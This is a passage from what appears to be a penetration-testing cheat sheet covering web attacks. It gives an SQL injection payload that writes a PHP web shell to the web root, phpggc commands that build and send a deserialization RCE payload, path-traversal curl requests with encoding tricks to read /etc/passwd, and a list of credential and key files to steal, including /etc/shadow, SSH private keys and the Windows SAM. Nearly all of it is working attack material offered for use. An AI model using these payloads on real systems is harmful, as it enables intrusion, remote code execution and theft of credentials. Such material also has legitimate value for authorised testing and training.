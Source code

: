 **Upload via SQL injection:**
```sql
' UNION SELECT 1,'<?php system($_GET["cmd"]); ?>',3 INTO OUTFILE '/var/www/html/shell.php'-- -
```

## Insecure Deserialization

### PHP Deserialization

```bash
# If you control serialized data
# Create payload with phpggc
phpggc -l  # List gadgets

# Generate payload
phpggc Symfony/RCE4 system id | base64

# Send in cookie/POST data
curl http://TARGET --cookie "data=SERIALIZED_PAYLOAD"
```

## Directory Traversal / Path Traversal

### Testing

```bash
# Basic traversal
curl "http://TARGET/download.php?file=../../../../etc/passwd"

# URL encoding
curl "http://TARGET/download.php?file=..%2f..%2f..%2f..%2fetc%2fpasswd"

# Double encoding
curl "http://TARGET/download.php?file=..%252f..%252f..%252f..%252fetc%252fpasswd"

# Different separators
curl "http://TARGET/download.php?file=....//....//....//....//etc/passwd"
```

### Interesting Files to Extract

```bash
# Linux
/etc/passwd
/etc/shadow
/home/user/.ssh/id_rsa
/var/www/html/config.php
/var/log/apache2/access.log

# Windows
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SYSTEM
C:\inetpub\wwwroot\web.config
C:\Users\Administrator\.ssh\id_rsa
```

